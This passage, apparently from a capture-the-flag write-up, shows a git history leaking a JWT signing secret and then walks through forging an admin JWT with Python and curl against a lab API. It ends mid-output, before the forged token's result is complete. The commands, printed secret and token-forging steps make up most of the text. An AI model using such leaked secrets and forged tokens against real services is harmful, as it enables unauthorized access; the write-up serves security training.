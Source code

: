 ```bash
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```
We found the secret `gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`, so we can use this to forge our own jwt tokens. 

## JWT Forging
In the first place we need to know how the jwt tokens of the app are generated. The first step is to register to the api:
```bash
❯ curl -X POST "http://10.10.11.120/api/user/register" -H "Content-Type: application/json" -d '{"name":"korriban","email":"revan@korriban.com","password":"123456"}'
{"user":"korriban"}
```
Now that we are register, if we login we should recieve a jwt token:
```bash
❯ curl -X POST "http://10.10.11.120/api/user/login" -H "Content-Type: application/json" -d '{"email":"revan@korriban.com","password":"123456"}'
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoia29ycmliYW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.xDnzYob7Rd0B0ydccIXCiapRpb_8wLChRq-HQzoZYbk
```
Now we can use this token to forge our own jwt tokens:
```bash
❯ python3
Python 3.10.4 (main, Mar 23 2022, 23:05:40) [GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoia29ycmliYW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.xDnzYob7Rd0B0ydccIXCiapRpb_8wLChRq-HQzoZYbk"
>>> secret = "gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i
7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE"
>>> jwt.decode(token,secret,algorithms=["HS256"])
{'_id': '629e6a534ee994045eb6dc47', 'name': 'korriban', 'email': 'revan@korriban.com', 'iat': 1654549209}
>>> cookie = jwt.decode(token,secret,algorithms=["HS256"])
>>> cookie["name"]="admin"
>>> jwt.encode(cookie, secret, "HS256")
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoiYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.ilSd__NUW8_1RDAj4gFOZeJMoIYlHVeJH-HpbD9SIjc'
```
If we use the new token to check the privileges:
```bash
❯ curl -X GET "http://10.10.11.120/api/logs" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoiYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.ilSd__NUW8_1RDAj4gFOZeJMoIYlHVeJH-HpbD9SIjc" -s | jq
{
  "role": {
    "role": "you are normal user",
```